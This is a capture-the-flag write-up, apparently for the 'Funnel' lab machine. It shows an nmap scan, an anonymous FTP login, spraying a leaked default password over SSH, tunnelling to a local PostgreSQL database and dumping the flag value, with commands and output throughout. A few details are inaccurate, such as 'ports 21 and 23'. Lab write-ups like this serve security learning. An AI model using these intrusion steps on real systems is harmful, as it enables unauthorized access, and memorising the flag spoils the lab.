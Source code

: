 ---- 
## Initial Information

- Attacker IP = 10.10.14.136
- Victim IP = 10.129.198.223
---

## Initial Scan
```shell


nmap -sV 10.129.198.223                                               

Nmap scan report for 10.129.198.223
Host is up (0.098s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)

Nmap done: 1 IP address (1 host up) scanned in 2.41 seconds
```
- Initial scan shows that FTP an ssh are open on ports 21 and 23 respectively 
- Tried to login using the default credentials anonymous@`<IP>`  and no password this was successful
```shell
ftp anonymous@10.129.198.223
Connected to 10.129.198.223.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 

```

downloaded the files  attached and added did a grep search inorder to get emails from the  welcome email
```shell
grep -E -o "\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,6}\b" welcome_28112022 
root@funnel.htb
optimus@funnel.htb
albert@funnel.htb
andreas@funnel.htb
christine@funnel.htb
maria@funnel.htb

```
- looking at the password policy document I found that the password policy states that each new user uses a default password *funnel123#!#*
- I enumerated through the emails using the name to try to login using ssh.
- I found that Christine has not changed her password
```shell
ssh christine@10.129.198.223 


christine@funnel:~$ 

```

- tried to run nmap on the local ip to see what hidden services are running but the current user doesn't have nmap so ran ss -a this gave a list of all the services that are running.
```shell
christine@funnel:~$ ss -tln
State      Recv-Q     Send-Q          Local Address:Port            Peer Address:Port     Process     
LISTEN     0          4096                127.0.0.1:34421                0.0.0.0:*                    
LISTEN     0          4096            127.0.0.53%lo:53                   0.0.0.0:*                    
LISTEN     0          128                   0.0.0.0:22                   0.0.0.0:*                    
LISTEN     0          4096                127.0.0.1:5432                 0.0.0.0:*                    
LISTEN     0          32                          *:21                         *:*                    
LISTEN     0          128                      [::]:22                      [::]:*                    
christine@funnel:~$ ss -tl
State      Recv-Q     Send-Q         Local Address:Port               Peer Address:Port    Process    
LISTEN     0          4096               127.0.0.1:34421                   0.0.0.0:*                  
LISTEN     0          4096           127.0.0.53%lo:domain                  0.0.0.0:*                  
LISTEN     0          128                  0.0.0.0:ssh                     0.0.0.0:*                  
LISTEN     0          4096               127.0.0.1:postgresql              0.0.0.0:*                  
LISTEN     0          32                         *:ftp                           *:*                  
LISTEN     0          128                     [::]:ssh                        [::]:*     
```

- As we cannot access the database with the local machine we need to use **Local Port Forwarding** This is the reason why nmap scan couldn't find anything as it is only locally accessable
- On the victim machine 
```shell

ssh -L 1337:localhost:5432 christine@10.129.198.223
```


- Make the second connection to create the intersection
```shell
sudo -u postgres psql -U christine -h localhost -p 1337

```

- used `\`l and `\c` to find an select the secrets table to investigate
- then used `\`dt to dump the tables  which finds the flag table
![[Pasted image 20230329191348.png]]


```shell
christine=# \c secrets
You are now connected to database "secrets" as user "christine".
secrets=# \dt
         List of relations
 Schema | Name | Type  |   Owner   
--------+------+-------+-----------
 public | flag | table | christine
(1 row)

secrets=# select * from flag;
              value               
----------------------------------
 cf277664b1771217d7006acdea006db1
(1 row)

```




---
## Resources
 - Finding the port 5432 is for postgres: https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql
 - how to setup a localport forward :https://www.section.io/engineering-education/ssh-tunneling/